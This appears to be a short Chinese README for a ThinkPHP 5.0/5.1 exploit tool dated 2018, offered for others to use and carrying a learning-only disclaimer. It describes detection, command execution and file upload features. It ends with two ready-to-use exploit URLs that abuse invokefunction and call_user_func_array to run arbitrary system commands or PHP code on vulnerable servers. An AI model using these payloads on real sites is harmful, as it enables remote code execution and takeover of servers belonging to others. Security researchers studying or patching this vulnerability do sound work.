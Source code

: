 # thinkphp_exp-v5.0|这是找的资源，不知道出处，拿着用吧，侵删
thinkphp_exp-v5.0
2018.12.11

说明：

漏洞检测，5.0和5.1都可以检测。

命令执行，文件上传只支持5.0版本tp。5.1和5.0利用大同小异，不打算写。这只是个练手作品，也勉强可以用。



还是老样子，用bat打开，不然看不到日志输出。



url:需要加http，不支持https检测。

命令：命令就是系统命令，各位都懂。

文件名：上传到服务器的文件名。

好多回显没处理，勉强用吧

网站被我不小心重置系统，月底重开。

www.safe6.cn

免责声明：
safe出品的所有程序，仅限用于学习和研究目的；不得将上述内容用于商业或者非法用途，否则，一切后果请用户自负。

5.1 的exp



命令执行:
http://url/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令


代码执行:
http://url/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


